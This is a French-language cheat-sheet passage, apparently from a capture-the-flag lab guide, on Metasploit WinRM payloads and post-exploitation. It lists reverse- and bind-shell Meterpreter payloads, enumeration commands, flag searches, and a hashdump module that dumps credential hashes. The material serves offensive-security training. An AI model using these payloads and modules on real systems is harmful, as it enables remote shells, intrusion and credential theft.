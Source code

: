 ### Payloads WinRM recommandés
```bash
# Payload par défaut
windows/meterpreter/reverse_tcp

# Alternatives
windows/shell/reverse_tcp         # Shell simple
windows/x64/meterpreter/reverse_tcp  # 64-bit
windows/meterpreter/bind_tcp      # Bind shell
```

---

## 🖥️ 6. Post-exploitation WinRM

### Session Meterpreter via WinRM
```bash
# Vérification session
getuid                    # Utilisateur actuel
sysinfo                   # Informations système
getpid                    # Process ID

# Navigation
pwd                       # Répertoire actuel
ls                        # Contenu
cd C:\\                   # Racine système
```

### Navigation et recherche de flag
```bash
# Via Meterpreter
cd /
dir
cat flag.txt
download flag.txt

# Via shell
shell
cd C:\
dir
type flag.txt
exit
```

### Énumération post-WinRM
```bash
# Dans Meterpreter
run post/windows/gather/enum_logged_on_users
run post/windows/gather/checkvm
run post/windows/gather/hashdump

# Recherche de fichiers
search -f flag.txt
search -f *.txt
search -d C:\\ -f flag*
```

---
